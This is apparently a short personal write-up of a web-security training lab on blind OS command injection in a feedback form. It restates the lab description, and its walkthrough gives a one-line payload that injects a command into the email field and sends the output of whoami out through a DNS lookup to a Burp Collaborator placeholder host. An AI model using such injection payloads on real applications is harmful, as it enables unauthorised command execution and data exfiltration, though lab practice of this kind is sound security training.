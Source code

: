`Burp Collabolator not included in Burp Community`
Title: Blind OS command injection with out-of-band interaction
Level: PRACTITIONER
Desc:   This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

# Walkthrough: 
```email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||```


I guess, that I could do the same in subject as in recent labs.
